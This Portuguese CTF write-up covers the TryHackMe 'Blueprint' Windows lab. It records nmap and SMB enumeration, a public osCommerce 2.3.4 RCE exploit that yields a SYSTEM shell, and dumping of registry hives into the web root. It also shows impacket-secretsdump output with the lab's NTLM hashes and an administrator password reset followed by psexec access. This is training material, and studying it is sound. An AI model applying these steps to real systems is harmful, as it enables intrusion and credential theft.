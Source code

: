 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - Blueprint - Fácil
date: 2024-02-16 22:35:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, windows, web, facil, impacket, crackmapexec]     # TAG names should always be lowercase
show_image_post: true
---
```


![Logo](/assets/img/blueprint.png){: w="100" h="100" .left}

---
# **CTF - Blueprint**
---
---
## **Enumeração**


### nmap

```shell
╭─      ~/thm/blueprint        INT ✘  33s 
╰─ sudo nmap  -Pn -sV -sS  --min-rate 5000 -stats-every 7s -p- 10.10.233.217 -oN nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-07 05:13 -03
Warning: 10.10.233.217 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.233.217                              
Host is up (0.22s latency).                                              
Not shown: 40141 filtered tcp ports (no-response), 25387 closed tcp ports (reset)      
PORT     STATE SERVICE      VERSION                                        
80/tcp   open  http         Microsoft IIS httpd 7.5            
135/tcp  open  msrpc        Microsoft Windows RPC                
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
8080/tcp open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 149.70 seconds
```
{: .nolineno }



Porta 8080 e 443  index of  

![alt text](/assets/img/blueprint1.png)

### crackmapexec, enum shares e users smb

```shell
╰─ crackmapexec smb 10.10.233.217 -u 'anonymous' -p '' --shares --users
SMB         10.10.233.217   445    BLUEPRINT        [*] Windows 7 Home Basic 7601 Service Pack 1 (name:BLUEPRINT) (domain:BLUEPRINT) (signing:False) (SMBv1:True)
SMB         10.10.233.217   445    BLUEPRINT        [+] BLUEPRINT\anonymous: 
SMB         10.10.233.217   445    BLUEPRINT        [+] Enumerated shares
SMB         10.10.233.217   445    BLUEPRINT        Share           Permissions     Remark
SMB         10.10.233.217   445    BLUEPRINT        -----           -----------     ------
SMB         10.10.233.217   445    BLUEPRINT        ADMIN$                          Remote Admin
SMB         10.10.233.217   445    BLUEPRINT        C$                              Default share
SMB         10.10.233.217   445    BLUEPRINT        IPC$                            Remote IPC
SMB         10.10.233.217   445    BLUEPRINT        Users           READ            
SMB         10.10.233.217   445    BLUEPRINT        Windows                         
SMB         10.10.233.217   445    BLUEPRINT        [-] Error enumerating domain users using dc ip 10.10.233.217: socket connection error while opening: [Errno 111] Connection refused
SMB         10.10.233.217   445    BLUEPRINT        [*] Trying with SAMRPC protocol
SMB         10.10.233.217   445    BLUEPRINT        [+] Enumerated domain user(s)
SMB         10.10.233.217   445    BLUEPRINT        BLUEPRINT\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.233.217   445    BLUEPRINT        BLUEPRINT\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.233.217   445    BLUEPRINT        BLUEPRINT\Lab     
```
{: .nolineno }

## **Acesso**

Acessando a pasta http://10.10.109.167:8080/oscommerce-2.3.4/catalog/
Contém um site de ecommerce, resolvi pesquisar `oscommerce-2.3.4 exploit`, optei por usar esse <https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution>

### Exploit

Ao executar o exploit recebi uma shell com usuário: `nt authority\system` (privilégio de admin)
Essa shell é bem limitada, ficamos presos nesse diretório.
Então fiz uma reverse powershell usei a powershell base64 daqui <https://n00br00t.github.io/sh/>

![alt text](/assets/img/blueprint2.png)

### Dump hashs

Dumpei as hashs com os comandos abaixo ja deixando na pasta do xampp pra baixar via browser.

`reg.exe save hklm\sam C:\xampp\htdocs\oscommerce-2.3.4\sam.save`  
`reg.exe save hklm\security C:\xampp\htdocs\oscommerce-2.3.4\security.save`  
`reg.exe save hklm\system C:\xampp\htdocs\oscommerce-2.3.4\system.save`  

Feito download dos arquivos pra minha máquina.

### impacket-secretsdump

Usando impacket pra pegar as hashs dos arquivos acima

```shell
╭─      ~/thm/blueprint         2 ✘ 
╰─ impacket-secretsdump  -sam sam.save -system system.save -security security.save LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x147a48de4a9815d2aa479598592b086f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4b360237b86b3290afd75586bf6b3ac6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
pentest:1002:aad3b435b51404eeaad3b435b51404ee:4b360237b86b3290afd75586bf6b3ac6:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword 
(Unknown User):malware
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x9bd2f17b538da4076bf2ecff91dddfa93598c280
dpapi_userkey:0x251de677564f950bb643b8d7fdfafec784a730d1
[*] Cleaning up... 
```
{: .nolineno }

## Segundo método
### Dump hashs
A outra forma é alterar a senha do administrador e dumpar via crackmapexec smb

Alterei a senha com: `net user administrator senha123`

Com crackmap dumpei as hashs via smb usando credenciais de admin
![alt text](/assets/img/blueprint4.png)

### impacket-psexec

Conectando via impacket-psexec

```shell
╭─      ~/tools        
╰─ impacket-psexec ./administrator:'senha123'@'10.10.233.217'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.233.217.....
[*] Found writable share ADMIN$
[*] Uploading file fPMoAJBn.exe
[*] Opening SVCManager on 10.10.233.217.....
[*] Creating service fSnp on 10.10.233.217.....
[*] Starting service fSnp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32> 
```
{: .nolineno }
### Flag Administrator
![alt text](/assets/img/blueprint5.png)  

Usei o crackstation pra crackear a hash
![alt text](/assets/img/blueprint6.png)

**Conhecimento adquiridos:**
 - Dump de HASHS via reg.exe
